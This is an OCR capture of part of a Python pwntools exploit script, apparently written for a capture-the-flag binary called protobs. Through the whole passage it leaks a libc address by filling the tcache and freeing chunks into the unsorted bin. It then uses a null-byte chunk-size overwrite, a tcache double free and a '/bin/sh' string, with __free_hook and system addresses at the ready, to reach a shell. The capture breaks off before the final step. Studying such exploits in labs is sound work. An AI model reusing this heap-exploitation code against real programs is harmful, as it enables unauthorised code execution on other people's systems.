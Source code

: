 ```python
    p.sendlineafter('[ Controller          ]: ', '')
    p.sendlineafter('[ Size of Description ]: ', str(int(str(size), 0)))
    if size != 0:
        p.sendlineafter('[ Description         ]: ', content)
    return

def free(ID=0):
    p.sendlineafter('protobs@player2:~$ ', str(4))
    p.sendlineafter('[ Config Index    ]: ', str(ID))
    return

def readCFG(ID=0):
    p.sendlineafter('protobs@player2:~$ ', str(3))
    p.sendlineafter('[ Config Index    ]: ', str(ID))
    p.recvuntil('[ Description         ]: ')
    return(u64(p.recvline()[:-1].ljust(8, b'\x00')))

# Getting chunks into the unsorted bin by filling up the 0xf8 tcache bin with chunks 0-6
# chunk 7 and 8 go into unsorted bin with its fd and bk pointer pointing to the main arena
# in libc
for i in range(9):
    add(0xf8, "A"*0x20)
for i in range(9):
    free(i)
# allocate again to read the fd/bk pointer of the chunks in the allocated bins. tcache will be
# allocated first
for i in range(7):
    add(0xf8, "A"*4)
add()
add()
# get leak
main_arena_leak_u = readCFG(8)
# addresses
# offset is constant in each runtime, so I looked it up in gdb and calculated it once
libc_base = main_arena_leak_u - 0x1e4ca0
free_hook = libc_base + 0x1e75a8
system = libc_base + 0x52fd0

log.info("Main arena leak  : {}".format(hex(main_arena_leak_u)))
log.info("Libc base address: {}".format(hex(libc_base)))
log.info("Free hook address: {}".format(hex(free_hook)))
log.info("System address   : {}".format(hex(system)))

# Null byte overwrite to code execution
# Dummies
add(0x30)	# Dummies are necessary to get two config _descriptions_ aligned right
add(0x30)	# after each other so that it is possible to overwrite the second chunk
		# size header. The size is deliberately set at 0x30, because this will
free(9)		# result in a chunk size of 0x41 in memory, which is also used for the 
free(10)	# config _name_. Freeing these two chunks results in 4 free 0x40 chunks.
# Allocate config descriptions adjacent in memory
add(0x58, 'A'*0x58)	# Allocation of size >0x40 will do the following: allocate 0x40 of the
add(0x180, 'B'*0x100)	# first dummy for config name and allocate 0x58 _after_ the dummies,
free(10)		# because there is no space for it earlier. Same goes for 0x180:
free(9)			# 0x40 of the dummy and 0x180 _right after_ the 0x58 chunk.
# /bin/sh and null byte overwrite the chunksize header from 180 to 100
add(0x58, 'A'*0x58)	# As the string will be terminated after the first null byte,
free(9)			# we have to do this in two steps. Overwrite first, free...
add(0x58, '/bin/sh\x00')# ... and write /bin/sh plus the null byte and leave the rest.
add()			# Adding an empty config will allow us to free the same address 
free(10)		# to the tcache 0xf0 bin twice
add(0x180, "A"*0x10)	# Because it thinks there is an 180 size chunk at this address it'll
free(10)		# allocate it here. When freeing, though, it sees its size to be 0x100
```